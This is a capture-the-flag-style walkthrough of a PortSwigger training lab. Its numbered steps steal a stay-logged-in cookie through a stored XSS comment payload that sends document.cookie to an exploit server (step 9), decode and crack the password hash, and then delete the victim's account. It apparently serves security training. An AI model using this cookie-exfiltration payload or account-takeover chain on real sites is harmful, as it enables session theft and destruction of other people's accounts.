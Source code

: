 ```yaml
---
title: Portswigger writeup - Offline Password Cracking
categories: [writeup,walkthrough,security]
tags: [writeup,walkthrough,portswigger,burp,login,security,password,offline]
---
```


<a href="https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking" target="_blank">This lab</a> is in the same series than the previous article. The goal here to steal Carlos's "stay-logged-in" cookie to steal and delete his account. 

# **Lab: Offline password cracking**

1. Click “My account button”
    
    ![offline-password-cracking-1.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-1.png)
    
2. Enter Wiener’s credentials, click “stay-logged-in” option and click “Log in”
    
    ![offline-password-cracking- (2).png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-2.png)
    
3. In Proxy > HTTP History, click the the GET reset “/my-account” and click on the arrow on the “stay-logged-in” cookie
    
    ![offline-password-cracking-3.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-3.png)
    
4. The base64 string is decoded: `username:password`O 
    
    ![offline-password-cracking-4.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-4.png)
    
5. Click “Home”
    
    ![offline-password-cracking-5.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-5.png)
    
6. Click a “View post” button
    
    ![offline-password-cracking-6.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-6.png)
    
7. In another tab, open the Exploit Server
    
    ![offline-password-cracking-7.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-7.png)
    
8. Copy its URL
    
    ![offline-password-cracking-8.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-8.png)
    
9. On the post opened at step 6, bottom page, add the following payload (change the URL for your exploit server), as well as random name, email address and website URL. Then click “Post comment”: `<script>document.location='https://exploit-server-url.com'+document.cookie</script>`
    
    ![offline-password-cracking-9.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-9.png)
    
10. Click “Back to blog”
    
    ![offline-password-cracking-10.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-10.png)
    
11. The blog post will be redirected to a similar page (here on Firefox)
    
    ![offline-password-cracking-11).png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-11.png)
    
12. Go back the the exploit server and click “Access log”
    
    ![offline-password-cracking-12.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-12.png)
    
13. A GET reset “/exploitserver” appears in the list, containing a “stay-logged-in” cookie, copy its string
    
    ![offline-password-cracking-13.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-13.png)
    
14. Go to [base64decode.org](http://base64decode.org), paste the string previously copied to decode it and copy the hashed password, after “`carlos:`”
    
    ![offline-password-cracking-14.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-14.png)
    
15. Go to [crackstation.net](http://crackstation.net) and paste the hash to get Carlos’s password
    
    ![offline-password-cracking-15.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-15.png)
    
16. Go back to the lab’s tab and click multiple times on the “Go back” button until you can see the website without being redirected
    
    ![offline-password-cracking-16.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-16.png)
    
17. If needed, click “My account”, according to the point you have reached using the “Go back” button, and click “Log out”
    
    ![offline-password-cracking-17.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-17.png)
    
18. Click “My account” again
    
    ![offline-password-cracking-18.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-18.png)
    
19. Enter “carlos” as a username and the password previously found at step 16 on Crackstation, “onceuponatime”, and click “Log in”
    
    ![offline-password-cracking-19.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-19.png)
    
20. When you are on Carlos’s “My account” page, click “Delete account”
    
    ![offline-password-cracking-20.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-20.png)
    
21. Paste one more time his password as a confirmation and click “Delete account!”
    
    ![offline-password-cracking-21.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-21.png)
    
22. The lab is solved
    
    ![offline-password-cracking-22.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-22.png)